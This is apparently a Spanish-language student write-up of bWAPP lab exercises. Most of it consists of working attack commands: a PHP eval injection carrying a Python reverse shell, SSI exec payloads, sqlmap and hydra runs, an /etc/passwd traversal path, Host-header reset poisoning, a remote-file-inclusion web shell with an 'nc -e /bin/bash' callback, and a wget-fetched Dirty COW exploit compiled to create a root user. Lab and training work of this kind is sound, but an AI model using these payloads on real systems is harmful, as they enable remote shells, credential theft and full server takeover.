El carácter que introduce el fallo de seguridad es
;, ya que termina el comando de DNS lookup y ejecuta como un comando nuevo todo lo que se escriba después del;.

En el path ejecuta un
evalcon el mensaje que se le envía por query param. Aprovechando esta vulnerabilidad es posible ejecutar un reverse shell con este path, teniendo previamente en mi Kali con IP '192.168.1.50' ejecutado el comando:nc -nlvp 4444:
http://192.168.1.51/bWAPP/phpi.php?message=system(%22python%20-c%20
%27import%20socket,os,pty;s=socket.socket(socket.AF_INET,
socket.SOCK_STREAM);s.connect((\%22192.168.1.50\%22,4444));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
pty.spawn(\%22/bin/bash\%22)%27%22)

Server Side Inclusion Injection es un ataque que se aprovecha de la ejecución del lado del servidor de comandos en el HTML antes de enviarlo al cliente. De esta forma podemos vulnerar el servicio con comandos como los siguientes:
<!--#exec cmd="whoami">
<!--#exec cmd="echo 'Vulnerable file' > UUU.html" -->
<!--#include file="UUU.html" -->

2 usuarios. Al usar sqlmap es posible contar la cantidad de usuarios que tiene la tabla
userscon solo tener previamente una petición a movie interceptada con Burp Suite, usando el siguiente comando:
sqlmap -u "http://192.168.1.39/bWAPP/sqli_13.php"
--data="movie=1&action=go"
--cookie="PHPSESSID=59d31218cafd6c78ff1d48f4f9af27b6;
security_level=0" -D bWAPP -T users --count

La contraseña encontrada para el usuario alice fue goat:
hydra -l alice -P /usr/share/wordlists/fasttrack.txt ftp://192.168.1.48

El secreto encontrado en las cabeceras HTTP es: QW55IGJ1Z3M%2F
curl -I http://192.168.1.48/bWAPP/insecure_crypt_storage_3.php
--cookie "PHPSESSID=459cd4a0d8edad05b7b27b43deb20f07;
security_level=0;"

Una vulnerabilidad de tipo Directory Traversal Attack permite acceder a archivos en el directorio usando la cadena ../. De esta forma se puede explotar con la siguiente ruta:
http://192.168.1.48/bWAPP/directory_traversal_1.php?page=
../../../../../../etc/passwd

Cambiando la IP en la cabecera "Host" se logra que se envíe el código de recuperación a mi Kali, de esta forma obtengo: 12066924ac88ee0b15712c1fade94bd33866ebfa

Tiene una vulnerabilidad de tipo Remote File Inclusion, que permite ejecutar un archivo en otro servidor. De esta forma, si abro la URL: http://192.168.1.48/bWAPP/rlfi.php?language=http://192.168.1.49/shell.txt&cmd=nc%20-e%20/bin/bash%20192.168.1.49%204444 permite ejecutar el archivo shell.txt que proveo desde mi Kali en el puerto 80. El archivo tiene esta instrucción:
<?php system($_GET["cmd"]); ?>
De esta forma, al servir con un servidor HTTP:
python3 -m http.server 80
Solo resta esperar a que el servidor de bWAPP se conecte por reverse shell en el puerto 4444:
nc -lvp 4444

Para cambiar a un usuario con los privilegios de root usé un exploit Dirty COW para explotar la vulnerabilidad del kernel de esa versión de Linux.

De esta forma proveo el archivo del exploit en mi servidor HTTP por el puerto 80. Usando la reverse shell del ejercicio 9, descargo este exploit y lo ejecuto para crear un usuario root con contraseña 1234
cd /tmp
wget http://192.168.1.49/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
chmod +x dirty
./dirty 1234
Luego busco ejecutar una consola interactiva, y para ello:
python -c 'import pty; pty.spawn("/bin/bash")'
Teniendo la consola interactiva, solo resta cambiar a mi nuevo usuario root usando la contraseña 1234.
